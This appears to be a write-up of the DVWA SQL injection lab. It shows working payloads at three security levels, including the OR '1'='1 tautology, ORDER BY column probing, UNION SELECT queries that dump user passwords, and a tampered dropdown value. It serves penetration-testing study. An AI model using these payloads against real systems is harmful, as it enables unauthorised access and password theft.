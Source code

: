 ```yaml
---
custom_edit_url: null
---
```


> ### Objective
> There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

## Security Level: Low
> The SQL query uses RAW input that is directly controlled by the attacker. All they need to-do is escape the query and then they are able to execute any SQL query they wish.
> Spoiler: ?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![1](https://github.com/Knign/Write-ups/assets/110326359/e9488e50-a295-4445-92e8-ee26e477daaa)

We can provide a user ID `1` to the application.

![2](https://github.com/Knign/Write-ups/assets/110326359/6812920c-1919-4b9a-8f8f-6a8997d27876)

So the user input is inserted in the following query:

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
Let's check the source code to see how the application behaves.

![3](https://github.com/Knign/Write-ups/assets/110326359/1c4a41e0-1808-41ca-abb9-32883f28294a)

As we can see, the user input is not sanitized in any way. This is what leaves an application vulnerable to SQLi.

Let's provide the following input:

```
1' OR '1'='1
```

Our input causes the application to create the following query:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

As 1 is always equal to 1,  all the users' first and last name will be output to the page regardless of whether their id is 1 or not.

![4](https://github.com/Knign/Write-ups/assets/110326359/1a0694a8-b898-4d7e-b214-a034519825fc)

Our job in not done though, we need to find the passwords for the users using a `UNION` attack.

For a `UNION` query to work, two key requirements must be met:
	- The individual queries must return the same number of columns.
	- The data types in each column must be compatible between the individual queries.

We can find the number of columns using the following queries provided by Portswigger one by one:
```
' ORDER BY 1#
' ORDER BY 2# 
' ORDER BY 3#
```
We will be able to notice that the first two queries do not return any result but the third query returns a blank screen.
This means that there are two columns in the current table.

Let's create our final payload:

```
' UNION SELECT user, password FROM users#
```

![5](https://github.com/Knign/Write-ups/assets/110326359/755567c6-553e-4b17-9fa7-ec061bb1a41b)

&nbsp;


## Security Level: Medium
> The medium level uses a form of SQL injection protection, with the function of "[mysql_real_escape_string()](https://secure.php.net/manual/en/function.mysql-real-escape-string.php)". However due to the SQL query not having quotes around the parameter, this will not fully protect the query from being altered.
> The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form.
> Spoiler: ?id=a UNION SELECT 1,2;-- -&Submit=Submit.

![6](https://github.com/Knign/Write-ups/assets/110326359/e39d6f7b-43ec-4911-b9cc-b66ffc775028)

Let's first check the source code.

![7](https://github.com/Knign/Write-ups/assets/110326359/c97287bc-87c5-4aef-b115-a098d7bd625a)

In this level our input is not inserted into quotes.

We can inspect the code for more information.

![8](https://github.com/Knign/Write-ups/assets/110326359/f34f3bc2-2d37-4ead-93be-d7e5c7b3a154)

Let's change the `<option>` tag to the following value:

```
<option value="1 OR 1=1">1 OR 1=1</option>
```

![9](https://github.com/Knign/Write-ups/assets/110326359/042d2955-9edb-466d-b046-f32da4b3dc19)

In order to retrieve the passwords, we can set the `<option>` tag to the following value:

```
<option value="1 UNION SELECT user, password FROM users#">1 UNION SELECT user, password FROM users#</option>
```

![10](https://github.com/Knign/Write-ups/assets/110326359/d218c485-00c4-4f96-bff1-f06d228f94d5)

&nbsp;


## Security Level: High
> This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.
> Spoiler: ID: a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![11](https://github.com/Knign/Write-ups/assets/110326359/bdc9100f-4781-4b24-a326-4459cff1fa83)

Let's check the source code.

![12](https://github.com/Knign/Write-ups/assets/110326359/6b80b238-038e-4d03-aed2-80ab0cd2a2f3)

The application treats our input the same way it did in the low security level.

That means the same payload as the low security level should work in this level.

```
' UNION SELECT user, password FROM users#
```

![13](https://github.com/Knign/Write-ups/assets/110326359/2d077567-4ce3-4bb9-a7d6-377d398ed312)
